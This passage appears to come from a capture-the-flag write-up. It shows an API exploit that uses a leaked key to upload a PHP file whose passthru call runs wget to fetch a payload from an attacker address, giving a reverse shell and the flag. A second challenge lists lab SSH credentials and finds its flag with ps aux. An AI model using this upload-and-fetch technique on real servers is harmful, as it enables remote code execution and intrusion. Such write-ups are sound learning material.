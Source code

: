 Now to exploit the API. Do a POST request with the apiKey value from `config.js` file to the `/api` endpoint.

```bash
curl -X POST -d "apiKey=37e4950e-d638-4e9f-9fe1-56baac1b85f2&method=create&filename=create_rev.php&content=<?php passthru('wget 10.X.Y.Z:9002/rev.php'); ?>" http://envXYZ.target03:8000/api/
```

Trigger reverse shell by visiting `/upl/create_rev.php` which executes the PHP code in the `create_rev.php` file.
Our payload should be found afterwards and triggered by visiting `/upl/rev.php`.

If everything was done correctly, the listener should have a new connection established to the target machine.
Finally `cat` out the flag from `/var/flag.txt`.

#### SELF-DRIVING-CAR

```md
DESCRIPTION
For your efforts, the city council has decided to award you with a free flight to a holiday destination.
Just as you have finished packing you get another call.
A company building self-driving cars has been experiencing an odd after-effect from the recent attacks against the city.
The city council has forwarded the company representative to you and after discussing the details you find out that they had a city guide application API integrated into their self-driving cars.
QUESTION
The company has provided you with SSH credentials and information that they use Robot Operating System for their self-driving cars.
You must find the status message of the active instance and help debugging the vehicle.
SSH:
Hostname: env263.target03
Port: 2222
Username: jack
Password: autonomous1337vehicles
```

##### Solution

Solution here was to look for active running processes and one of processes contained flag, but this may have not been the intended path.

##### Steps

1. SSH into server `ssh jack@env263.target03 -p2222`
2. `ps aux` shows interesting running processes.
   ![ps aux results](../../images/cybershock-2022-self-driving-car-1.png){: .image-process-crisp}
3. `cd` into folder and `cat autonomous_shuttle_statushandler.py` gives us flag.